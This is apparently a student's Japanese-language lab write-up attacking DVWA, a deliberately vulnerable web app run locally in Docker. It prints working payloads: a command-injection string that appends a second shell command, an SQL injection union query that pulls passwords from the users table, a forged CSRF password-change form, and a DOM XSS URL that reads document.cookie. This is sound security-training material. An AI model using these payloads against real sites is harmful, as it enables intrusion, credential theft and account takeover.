





# 課題３（実演）

DVWA に最低限、以下の攻撃を成功させ、それぞれの攻撃に対して有効な防御手段を説明

## 実行環境の準備

1. `docker pull vulnerables/web-dvwa`
2. `docker run --rm -it -p 80:80 vulnerables/web-dvwa`
3. http://localhost にアクセス
4. admin, password でログイン

## 実行結果

### コマンドインジェクション

```
127.0.0.1; echo 'hoge';
```



### SQL インジェクション

```
' union select null, password from users #
```



### CSRF

1. 既存ページのフォームを模した HTML ファイルを用意

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>CSRF</title>
  </head>
  <body>
    <form action="http://localhost/vulnerabilities/csrf" method="GET">
      "New password:"
      <br />
      <input type="password" autocomplete="off" name="password_new" /><br />
      "Confirm new password:"
      <br />
      <input type="password" autocomplete="off" name="password_conf" /><br />
      <input type="submit" value="Change" name="Change" />
    </form>
  </body>
</html>
```

2. ブラウザからパスワード変更リクエストをサブミット



3. 変更できてしまう



### XSS

```
http://localhost/vulnerabilities/xss_d/?default=<script>window.alert(document.cookie)</script>
```



### 対策

課題 1 で回答の通り

## 参照

- [GitHub: DVWA](https://github.com/digininja/DVWA)
- [YouTube: IT 社長が WEB アプリの脆弱性を突いてみた（コマンドインジェクション編）](https://www.youtube.com/watch?time_continue=690&v=kvjYqXByjjU)
